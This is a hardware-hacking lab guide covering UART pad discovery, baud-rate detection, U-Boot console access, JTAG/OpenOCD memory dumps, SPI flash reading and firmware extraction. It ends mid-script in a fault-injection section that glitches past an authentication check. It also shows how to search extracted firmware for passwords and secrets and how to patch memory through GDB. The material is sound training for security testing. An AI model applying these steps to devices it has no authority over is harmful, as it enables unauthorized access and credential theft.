






# Operational Verification Labs: 01 — UART and Serial Reconnaissance

> **Scope:** Embedded Linux and bare-metal targets exposing a UART debug console. All exercises are destructive-read-only or fault-local unless explicitly noted; no production systems should be used.

---

## 1. Theoretical Foundation

### 1.1 UART at the Electrical and Protocol Level

Universal Asynchronous Receiver-Transmitter (UART) is not a bus protocol in the strict sense — it is a point-to-point, full-duplex, asynchronous serial interface defined entirely by a timing contract between two nodes. Because there is no shared clock line, both endpoints must agree on a *baud rate* (symbols per second) before communication is possible. This is the single most important parameter to discover during reconnaissance.

A UART frame is composed of:

- **Start bit** — a mandatory logic-low transition that signals frame onset. The receiver samples on this edge.
- **Data bits** — typically 8, transmitted LSB-first by convention (though configurable).
- **Parity bit** — optional. Even/odd parity is computed over the data bits for single-bit error detection.
- **Stop bit(s)** — one or two logic-high periods that return the line to idle and guarantee minimum inter-frame spacing.

The electrical idle state is **mark** (logic high, positive voltage or VCC depending on the voltage standard). This means a powered but silent UART TX line sits at a stable high voltage — a vital physical signal that distinguishes an unused GPIO from a live UART TX.

**Voltage standards commonly encountered on embedded targets:**

| Standard | Logic High | Logic Low | Notes |
|----------|-----------|-----------|-------|
| TTL (5 V) | +5 V | 0 V | Legacy MCUs, Arduino |
| LVTTL (3.3 V) | +3.3 V | 0 V | Most modern SoCs (BCM2837, Allwinner, etc.) |
| RS-232 | +3 V to +15 V | −3 V to −15 V | PC COM ports, industrial |
| RS-485 | Differential ±1.5 V–7 V | — | Multi-drop industrial bus |

**Critical:** Connecting a 5 V UART directly to a 3.3 V SoC GPIO input *without a level shifter* will permanently damage the target. Always probe voltage with a multimeter before connecting.

### 1.2 Why UART Is the Primary Hardware Attack Surface

UART console access on embedded devices typically provides one or more of:

1. **Unauthenticated root shell** — bootloaders (U-Boot, Barebox, Redboot) frequently drop to an interactive prompt before the OS enforces authentication.
2. **Bootloader interrupt window** — a timed keypress (`Space`, `s`, `Ctrl-C`) during the U-Boot autoboot countdown aborts the boot sequence entirely, exposing `bdinfo`, `md`, `mw`, `sf`, `nand`, `ubi`, `bootm`, and `boot` commands.
3. **Kernel boot log** — exposes kernel version, driver initialization order, MTD partition map, and filesystem mounts — all valuable for target-specific exploit construction.
4. **Crash dumps** — a panic backtrace reveals KASLR offsets (or their absence), stack addresses, and loaded module list.

### 1.3 Signal Timing Diagram



### 1.4 Baud Rate Timing Mathematics

Given a baud rate *B*, one symbol period is:

```text
T_bit = 1 / B  seconds
```

At 115200 baud: `T_bit ≈ 8.68 µs`. A logic analyzer must sample at a minimum of **4× oversampling** (≥ 460.8 kSa/s) to reliably decode at this rate. Saleae Logic 8 and similar analyzers sample at up to 100 MSa/s, which is more than sufficient.

Standard embedded UART baud rates in descending frequency of occurrence on IoT/embedded targets:

```text
115200, 57600, 38400, 19200, 9600, 4800, 2400, 1200
```

Non-standard baud rates (e.g., 74880 baud used by the ESP8266 ROM bootloader) exist and require manual configuration.

---

## 2. Lab Architecture and Tool Chain

### 2.1 System Architecture Diagram



### 2.2 Required Hardware

| Item | Purpose | Notes |
|------|---------|-------|
| FTDI FT232R or similar | USB-to-UART bridge | Prefer FT232R for configurable baud clock; avoid cheap CH340 clones for precise timing work |
| Saleae Logic 8 or Bus Pirate 5 | Passive signal capture and active protocol exploration | Saleae for high-speed capture; Bus Pirate for active bus interaction |
| Bench multimeter | Voltage level identification before connection | Non-negotiable safety step |
| SOIC-8 clip (Pomona 5250 or equivalent) | In-circuit flash attachment | For CH341A or Dediprog programmer |
| CH341A or Dediprog SF100 | SPI flash programmer | CH341A is low-cost but limited voltage support; Dediprog handles 1.8 V flash |
| Dupont jumper wires | Physical connections | 24 AWG minimum |
| USB isolator (Adafruit ISO1540 or similar) | Protects workstation from target ground faults | Strongly recommended |

### 2.3 Required Software

```bash
# Debian/Ubuntu
sudo apt update && sudo apt install -y \
    sigrok-cli pulseview \
    minicom picocom \
    openocd \
    flashrom \
    binwalk \
    gdb-multiarch \
    python3-pip \
    screen

pip3 install pyserial jefferson ubi_reader

# binwalk dependency for full extraction support
sudo apt install -y \
    squashfs-tools \
    mtd-utils \
    zlib1g-dev \
    liblzma-dev \
    liblzo2-dev
```

---

## 3. Physical Reconnaissance: Locating UART Pads

### 3.1 PCB Inspection Methodology

UART debug headers are rarely labelled on production hardware. Locate them through:

1. **Silkscreen inspection** — look for `J1`, `JP1`, `DEBUG`, `CON1`, `UART`, `CONSOLE`, `TX`, `RX`, `GND` silk labels near 4-pin or 6-pin through-hole or SMD pad arrays.
2. **Continuity to ground** — use a multimeter in continuity mode. GND pads will be contiguous with the main ground plane (large copper fills, chassis screws, USB shield).
3. **Voltage measurement at power-on** — with the target powered, probe each unknown pad with a multimeter set to DC voltage, referenced to GND. An idle UART TX will read a stable VCC (3.3 V or 5 V). An idle RX will also read VCC because it is internally pulled high through the SoC's input buffer. A GPIO configured as output-high will also read VCC — distinguish TX from GPIO by monitoring for voltage dips during boot.
4. **Oscilloscope / logic analyzer sweep during boot** — the most reliable method. Clip a logic analyzer channel to each candidate pad and power-cycle the target. A UART TX line will show burst activity in the first seconds of boot corresponding to the bootloader console output. A completely silent GPIO will remain at a steady logic level.

### 3.2 Signal Identification Decision Tree



---

## 4. Exercise 1 — Live Hardware Probing and Signal Capture

### 4.1 Baud Rate Detection with sigrok-cli

The correct workflow is: capture first, then decode. Never guess baud rate and configure a terminal blind.

**Step 1: Capture raw logic during device boot**

```bash
# Assumes Saleae Logic 8 or compatible fx2lafw device
# -d fx2lafw: select driver (use `sigrok-cli --scan` to discover actual device string)
# -C D0: capture channel D0 (connect to target UART TX)
# --samples 10M: capture 10 million samples
# --config samplerate=2MHz: 2 MSa/s gives 17 samples per bit at 115200 baud (safe)

sigrok-cli \
    --driver fx2lafw \
    --config samplerate=2MHz \
    --channels D0 \
    --samples 10000000 \
    --output-format srzip \
    --output-file boot_capture.sr
```

**Step 2: Measure the shortest pulse width to derive baud rate**

Open `boot_capture.sr` in PulseView (GUI) or extract minimum pulse width programmatically:

```python
#!/usr/bin/env python3
"""
Derive UART baud rate from a raw logic capture by finding the minimum
pulse width, which corresponds to one bit period at the configured baud rate.

Dependencies: sigrok Python bindings (libsigrok) or parse the VCD export.
This example uses a simple VCD parser for portability.
"""

import sys
import re
from collections import Counter

def parse_vcd_transitions(vcd_file: str) -> list[int]:
    """Extract timestamps of logic transitions from a VCD file."""
    timestamps = []
    timescale_ns = 1  # default

    with open(vcd_file, 'r') as f:
        content = f.read()

    # Extract timescale
    ts_match = re.search(r'\$timescale\s+(\d+)\s*(ns|us|ps)\s*\$end', content)
    if ts_match:
        value = int(ts_match.group(1))
        unit = ts_match.group(2)
        timescale_ns = value * {'ps': 0.001, 'ns': 1, 'us': 1000}[unit]

    # Extract transitions for first variable
    for match in re.finditer(r'#(\d+)\s*[01]x', content):
        timestamps.append(int(match.group(1)))

    return timestamps, timescale_ns


def detect_baud_rate(vcd_file: str) -> int:
    """
    Detect UART baud rate by computing the minimum inter-transition interval,
    which corresponds to one bit period (1/baud).
    """
    timestamps, timescale_ns = parse_vcd_transitions(vcd_file)

    if len(timestamps) < 2:
        raise ValueError("Insufficient transitions in capture for baud detection")

    intervals_ns = [
        (timestamps[i+1] - timestamps[i]) * timescale_ns
        for i in range(len(timestamps) - 1)
    ]

    # The minimum interval is 1 bit period
    min_interval_ns = min(intervals_ns)
    measured_baud = 1_000_000_000 / min_interval_ns

    # Snap to nearest standard baud rate
    standard_bauds = [1200, 2400, 4800, 9600, 14400, 19200, 38400,
                      57600, 74880, 115200, 230400, 460800, 921600]

    nearest = min(standard_bauds, key=lambda b: abs(b - measured_baud))
    deviation_pct = abs(measured_baud - nearest) / nearest * 100

    print(f"Measured minimum bit period: {min_interval_ns:.2f} ns")
    print(f"Measured baud rate:          {measured_baud:.0f} bps")
    print(f"Nearest standard baud:       {nearest} bps")
    print(f"Deviation:                   {deviation_pct:.2f}%")

    if deviation_pct > 5:
        print("WARNING: Deviation > 5%. Likely a non-standard baud rate.")
        print(f"Use exactly {measured_baud:.0f} in your terminal configuration.")

    return nearest


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <capture.vcd>")
        sys.exit(1)
    detect_baud_rate(sys.argv[1])
```

Export VCD from sigrok-cli for the script above:

```bash
sigrok-cli \
    --driver fx2lafw \
    --config samplerate=2MHz \
    --channels D0 \
    --samples 10000000 \
    --output-format vcd \
    --output-file boot_capture.vcd
```

**Step 3: Software UART decode with sigrok-cli**

Once baud rate is confirmed, decode the protocol inline:

```bash
sigrok-cli \
    --input-file boot_capture.sr \
    --protocol-decoders uart \
    --protocol-decoder-annotations uart=tx-data \
    --protocol-decoder-options 'uart:baudrate=115200:data_bits=8:parity=none:stop_bits=1:format=ascii' \
    --output-format ascii \
    2>/dev/null | strings
```

### 4.2 Connecting the USB-UART Bridge

Wire the FTDI FT232R to the target using a **crossover** connection: the transmitter of one device connects to the receiver of the other.



**Safety check before connecting:**

```bash
# Confirm device appears after USB insertion
lsusb | grep -E "FTDI|0403"
# FTDI FT232R: 0403:6001
# CP2102:      10c4:ea60
# CH340:       1a86:7523

# Identify assigned tty
dmesg | tail -5 | grep ttyUSB
# Expected: [  xxx.xxxxxx] usb 1-1.2: ch341-uart converter now attached to ttyUSB0
```

### 4.3 Terminal Connection and Boot Log Capture

```bash
# picocom is preferred over minicom for scripted/automated use
# --imap lfcrlf: normalize line endings for log capture
# --logfile: captures everything to disk simultaneously

picocom \
    --baud 115200 \
    --databits 8 \
    --parity none \
    --stopbits 1 \
    --flow none \
    --imap lfcrlf \
    --logfile /tmp/uart_boot_$(date +%Y%m%d_%H%M%S).log \
    /dev/ttyUSB0
```

Power-cycle the target immediately after initiating the connection. The complete boot log is now being captured to disk.

**Automated baud rate sweep when baud rate is unknown:**

```bash
#!/usr/bin/env bash
# uart_baud_sweep.sh
# Attempts each standard baud rate for 3 seconds and reports
# whether printable ASCII output was received.

TARGET_DEV="/dev/ttyUSB0"
BAUD_RATES=(1200 2400 4800 9600 19200 38400 57600 115200 230400 460800)
TIMEOUT=3

for baud in "${BAUD_RATES[@]}"; do
    echo -n "Testing ${baud} bps ... "
    
    # Set serial parameters
    stty -F "${TARGET_DEV}" "${baud}" cs8 -cstopb -parenb raw -echo 2>/dev/null
    
    # Read output for TIMEOUT seconds
    output=$(timeout "${TIMEOUT}" cat "${TARGET_DEV}" 2>/dev/null | tr -cd '[:print:]\n\r')
    
    char_count=${#output}
    printable_ratio=0
    
    if [[ $char_count -gt 10 ]]; then
        echo "CANDIDATE — ${char_count} printable chars received"
        echo "  First 80 chars: ${output:0:80}"
    else
        echo "no output"
    fi
done
```

---

## 5. Exercise 2 — Bus Sniffing, Register Inspection, and Memory Dumping

### 5.1 U-Boot Console Exploitation

If the target runs U-Boot, the UART console is the primary attack surface before the OS loads. The autoboot countdown (default 3–5 seconds) is the interrupt window.

```text
Hit any key to stop autoboot:  3
=> 
```

At the U-Boot prompt, the following commands expose critical device information:

```bash
# System information
=> bdinfo                        # Board info: memory map, clock frequencies, MAC
=> printenv                      # All environment variables (boot args, server IPs, etc.)
=> version                       # U-Boot version and build timestamp

# Memory map exploration
=> md.b 0x80000000 0x100         # Dump 256 bytes from DRAM base in hex
=> md.l 0xBFC00000 0x40          # Dump 64 32-bit words from NOR flash base (MIPS)

# Flash/MTD layout
=> mtdparts                      # Show MTD partition table
=> sf probe 0                    # Initialize SPI flash controller
=> sf read 0x81000000 0x0 0x100  # Read 256 bytes from SPI flash offset 0 to RAM at 0x81000000
=> md.b 0x81000000 0x100         # Dump what was read

# Full SPI flash dump to memory then export over TFTP
=> sf probe 0
=> sf read 0x82000000 0x0 0x800000   # Read 8 MB flash into RAM
=> setenv serverip 192.168.1.100
=> setenv ipaddr 192.168.1.200
=> tftp 0x82000000 firmware_dump.bin 0x800000  # Upload to TFTP server
```

**On the analysis workstation (TFTP server):**

```bash
# Install and start TFTP server to receive firmware over network
sudo apt install -y tftpd-hpa
sudo systemctl start tftpd-hpa
# TFTP root defaults to /srv/tftp — the uploaded file will appear there

# After U-Boot tftp upload completes:
ls -lh /srv/tftp/firmware_dump.bin
md5sum /srv/tftp/firmware_dump.bin
```

### 5.2 OpenOCD for JTAG Register and Memory Access

OpenOCD communicates over JTAG or SWD to the target CPU's debug TAP (Test Access Port). It presents a GDB remote serial protocol server and a Tcl-based command interface.

**Correct OpenOCD invocation (the original material had incorrect capitalization — it is `openocd`, lowercase):**

```bash
# -f interface: specifies the debug adapter hardware
# -f target:    specifies the target CPU/SoC
# -c:           inline Tcl commands to execute after init

# Example: ARM Cortex-A7 target via FTDI MPSSE adapter
openocd \
    -f interface/ftdi/olimex-arm-usb-ocd-h.cfg \
    -f target/stm32h7x.cfg \
    -c "init" \
    -c "reset halt" \
    -c "reg" \
    -c "halt" \
    -c "dump_image /tmp/flash_dump.bin 0x08000000 0x100000" \
    -c "resume" \
    -c "exit"
```

**Register dump and memory inspection via OpenOCD telnet interface:**

```bash
# In terminal 1: start OpenOCD server
openocd \
    -f interface/ftdi/olimex-arm-usb-ocd-h.cfg \
    -f target/stm32h7x.cfg \
    -c "gdb_port 3333" \
    -c "telnet_port 4444" \
    -c "init"

# In terminal 2: connect via telnet
telnet localhost 4444
```

```tcl
# OpenOCD Tcl session — commands executed in telnet
> halt
target halted in Thumb state due to debug-request, current mode: Thread
xPSR: 0x01000000 pc: 0x0800179c msp: 0x20004fe0

> reg
===== arm v7m registers
(0)   r0: 0x00000000
(1)   r1: 0x20000000
(2)   r2: 0x00000041
...
(15) pc: 0x0800179c
(16) xPSR: 0x01000000
(17) msp: 0x20004fe0
(18) psp: 0x00000000
(19) primask: 0x00
(20) basepri: 0x00
(21) faultmask: 0x00
(22) control: 0x00

# Read 64 bytes from flash at base address
> mdw 0x08000000 16
0x08000000: 20004fe0 0800179d 08002761 08002761

# Dump entire flash region to file
> dump_image /tmp/stm32_flash.bin 0x08000000 0x200000
dumped 2097152 bytes in 18.234262s (112.3 KiB/s)
```

**Automate a full register and memory snapshot with an OpenOCD script:**

```tcl
# dump_target_state.tcl
# Run with: openocd -f interface/... -f target/... -f dump_target_state.tcl

proc dump_target_state {output_dir} {
    init
    reset halt
    
    # Dump all ARM registers to file
    set reg_file [open "${output_dir}/registers.txt" w]
    puts $reg_file "=== ARM Register State ==="
    puts $reg_file "Timestamp: [clock format [clock seconds]]"
    puts $reg_file ""
    
    foreach reg_name {r0 r1 r2 r3 r4 r5 r6 r7 r8 r9 r10 r11 r12 sp lr pc xpsr} {
        set val [ocd_reg $reg_name]
        puts $reg_file "$val"
    }
    close $reg_file
    puts "Register dump complete: ${output_dir}/registers.txt"

    # Dump flash (adjust base and size for target)
    set flash_base 0x08000000
    set flash_size 0x200000
    set flash_file "${output_dir}/flash_dump.bin"
    dump_image $flash_file $flash_base $flash_size
    puts "Flash dump complete: ${flash_file}"

    # Dump RAM
    set ram_base 0x20000000
    set ram_size  0x20000
    set ram_file "${output_dir}/ram_dump.bin"
    dump_image $ram_file $ram_base $ram_size
    puts "RAM dump complete: ${ram_file}"

    resume
    shutdown
}

dump_target_state "/tmp/target_snapshot"
```

### 5.3 Flash Chip Reading with flashrom

**flashrom** reads, writes, and verifies flash chips via a variety of hardware programmers. It supports SPI, LPC, FWH, and parallel flash.

```bash
# Step 1: Identify the connected flash chip
flashrom \
    --programmer ch341a_spi \
    --verbose \
    2>&1 | head -30

# Example output:
# flashrom v1.3.0 on Linux 5.15.0-x86_64
# Found Winbond flash chip "W25Q128.V" (16384 kB, SPI) on ch341a_spi.

# Step 2: Read flash to file (with verification)
flashrom \
    --programmer ch341a_spi \
    --chip W25Q128.V \
    --read /tmp/firmware_original.bin \
    --verify \
    --verbose

# Step 3: Read twice and compare checksums to verify read integrity
flashrom --programmer ch341a_spi --chip W25Q128.V --read /tmp/firmware_read1.bin
flashrom --programmer ch341a_spi --chip W25Q128.V --read /tmp/firmware_read2.bin
md5sum /tmp/firmware_read1.bin /tmp/firmware_read2.bin
sha256sum /tmp/firmware_original.bin > /tmp/firmware.sha256
```

> **Note on CH341A voltage:** The CH341A programmer operates at 5 V by default. Many modern SPI flash chips (Macronix MX25L, Winbond W25Q, GigaDevice GD25Q series in 1.8 V variants) will be permanently damaged at 5 V. Measure the flash chip's VCC before connecting. For 1.8 V flash, use a Dediprog SF100 or a modified CH341A with a voltage-divider/regulator modification.

### 5.4 Firmware Analysis with binwalk

```bash
# Step 1: Entropy and signature analysis (do not extract yet)
binwalk /tmp/firmware_original.bin

# Example output:
# DECIMAL    HEXADECIMAL    DESCRIPTION
# 0          0x0            DLOB firmware header, boot partition: "dev=/dev/mtdblock1"
# 112        0x70           LZMA compressed data, properties: 0x5D, dict: 8388608
# 589824     0x90000        Squashfs filesystem, little endian, version 4.0, ...
# 4718592    0x480000       JFFS2 filesystem data little endian

# Step 2: Entropy analysis to locate compressed/encrypted regions
binwalk --entropy --save /tmp/firmware_original.bin
# High flat entropy (>0.95) → likely encrypted or compressed (indistinguishable)
# Structured entropy variation → likely compressed with known algorithm

# Step 3: Recursive extraction
binwalk \
    --extract \
    --matryoshka \
    --directory /tmp/firmware_extracted \
    /tmp/firmware_original.bin

# Step 4: Navigate and inspect the extracted root filesystem
ls /tmp/firmware_extracted/_firmware_original.bin.extracted/
# squashfs-root/   ← mounted/extracted squashfs
# 70              ← raw LZMA stream

# Inspect the root filesystem
find /tmp/firmware_extracted -name "passwd" -o -name "shadow" 2>/dev/null
find /tmp/firmware_extracted -name "*.conf" | xargs grep -l "password\|passwd\|secret" 2>/dev/null
find /tmp/firmware_extracted -perm /u+s 2>/dev/null  # setuid binaries

# Step 5: Extract strings from binaries for credential/endpoint discovery
strings /tmp/firmware_extracted/_firmware_original.bin.extracted/squashfs-root/bin/busybox \
    | grep -E "(http|ftp|ssh|telnet|pass|key|secret|token)" \
    | head -40
```

**Identify the CPU architecture of extracted binaries (critical for GDB setup):**

```bash
file /tmp/firmware_extracted/_firmware_original.bin.extracted/squashfs-root/bin/busybox
# busybox: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV),
#          dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped

# Or use readelf for more detail:
readelf -h /tmp/firmware_extracted/_firmware_original.bin.extracted/squashfs-root/bin/busybox
# Machine: MIPS R3000  (or ARM, PowerPC, etc.)
```

### 5.5 Remote Debugging with GDB over OpenOCD

```bash
# Terminal 1: OpenOCD provides GDB RSP server on port 3333
openocd \
    -f interface/ftdi/olimex-arm-usb-ocd-h.cfg \
    -f target/stm32h7x.cfg \
    -c "init" \
    -c "halt"

# Terminal 2: Connect gdb-multiarch
gdb-multiarch \
    --quiet \
    /tmp/firmware_extracted/vmlinux   # or ELF with symbols if available

# Inside GDB session:
(gdb) set architecture arm
(gdb) set endian little
(gdb) target remote localhost:3333
Remote debugging using localhost:3333
0x0800179c in ?? ()

(gdb) info registers
r0             0x0                 0
r1             0x20000000          536870912
...
pc             0x800179c           0x800179c

# Set software breakpoint at function entry
(gdb) break *0x08001234
Breakpoint 1 at 0x8001234

(gdb) continue
Continuing.
Breakpoint 1, 0x08001234 in ?? ()

# Examine memory
(gdb) x/32xw 0x20000000
0x20000000:   0xdeadbeef  0x00000000  ...

# Write to memory (e.g., patch a comparison result)
(gdb) set {int}0x20001000 = 0x1

(gdb) detach
(gdb) quit
```

---

## 6. Exercise 3 — Fault Injection and Exploit Verification

### 6.1 Voltage Fault Injection (VFI) Fundamentals

Voltage fault injection introduces a brief undervoltage or overvoltage transient on the CPU's VCC supply to cause the processor to execute instructions incorrectly. The goal is to skip a single instruction — typically a conditional branch that enforces a security check (e.g., `CMP R0, #0` followed by `BEQ authentication_fail`).

The key parameters are:

- **Offset** — time from trigger event (e.g., UART transmission of a known character) to glitch injection
- **Width** — duration of the voltage drop (typically 10–1000 ns for modern CPUs)
- **Amplitude** — depth of the voltage drop (typically 10–50% of VCC)

This requires a glitching tool (ChipWhisperer, NewAE CW305, or a custom MOSFET crowbar circuit). A logic analyzer alone cannot inject faults — the original material's claim that `sigrok-cli` can simulate fault timing is incorrect. sigrok is a *capture* tool only.

```python
#!/usr/bin/env python3
"""
ChipWhisperer-based voltage fault injection example.
Targets a device that sends 'P' on success and 'F' on authentication failure.
Sweeps offset and width to find a glitch window that converts 'F' to 'P'.

Requires: pip install chipwhisperer
Hardware: ChipWhisperer-Lite or CW305
"""

import chipwhisperer as cw
import time
import sys

BAUD = 115200
TARGET_PORT = '/dev/ttyUSB0'

def setup_cw() -> tuple:
    """Initialize ChipWhisperer scope and target."""
    scope = cw.scope()
    scope.default_setup()

    # Configure glitch module
    scope.glitch.clk_src = 'clkgen'
    scope.glitch.output = 'enable_only'
    scope.glitch.trigger_src = 'ext_single'
    scope.glitch.repeat = 1

    target = cw.target(scope, cw.targets.SimpleSerial)
    return scope, target


def attempt_glitch(scope, target, offset_ns: int, width_ns: int) -> str | None:
    """
    Arm the glitch, trigger the target, and return the response byte.
    Returns 'P' (pass), 'F' (fail), or None (crash/no response).
    """
